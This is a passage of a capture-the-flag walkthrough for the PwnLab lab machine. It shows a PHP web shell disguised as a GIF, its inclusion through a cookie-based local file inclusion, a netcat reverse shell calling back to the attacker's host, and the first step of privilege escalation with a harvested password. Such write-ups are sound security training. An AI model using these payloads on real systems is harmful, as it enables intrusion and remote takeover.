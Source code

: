 Using any of the credentials provided allows us to access the upload page. What we want to do now is find a way to get a shell.
How about uploading a GIF containing PHP code, and include it by the LFI vulnerability we found earlier (lang cookie)?
  
#### 1\. Create fake PNG file containing PHP code.  

```php
GIF89;  
<?php system($_GET["cmd"]) ?>  
```

`GIF89` is to bypass the type check, more info [here.](https://en.wikipedia.org/wiki/List_of_file_signatures). File is stored by its md5 hash, so it's stored at `../upload/32d3ca5e23f4ccf1e4c8660c40e75f33.png`.

#### 2\. Set lang cookie to include the image we uploaded:  

```js
document.cookie="lang=../upload/32d3ca5e23f4ccf1e4c8660c40e75f33.png"  
```

#### 3\. Start a netcat listener on Kali  

```console
root@kali:~/Desktop# nc -nvlp 4444  
listening on [any] 4444 ...  
```

#### 4\. Connect to the open port  

```
http://192.168.1.65/?cmd=nc -nv 192.168.1.71 4444 -e /bin/bash  
``` 

  
#### 5\. Did we get our shell?  

```console
root@kali:~/Desktop# nc -nvlp 4444  
listening on [any] 4444 ...  
connect to [192.168.1.71] from (UNKNOWN) [192.168.1.65] 57556  
whoami  
whoami  
www-data  
python -c 'import pty; pty.spawn("/bin/bash");'  
www-data@pwnlab:/var/www/html$  
```    

#### 6\. Privilege Escalation

*I won't be discussing which attempts I made since they're countless, check [this ](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) article for useful info.*

1\. Running as kent

```console
www-data@pwnlab:/home$ ls -al  
ls -al  
total 24  
drwxr-xr-x  6 root root 4096 Mar 17  2016 .  
drwxr-xr-x 21 root root 4096 Mar 17  2016 ..  
drwxr-x---  2 john john 4096 Mar 17  2016 john  
drwxr-x---  2 kane kane 4096 Mar 17  2016 kane  
drwxr-x---  2 kent kent 4096 Mar 17  2016 kent  
drwxr-x---  2 mike mike 4096 Mar 17  2016 mike  
www-data@pwnlab:/home$ su kent  
su kent  
Password: JWzXuBJJNy  
  
kent@pwnlab:/home$ cd kent  
```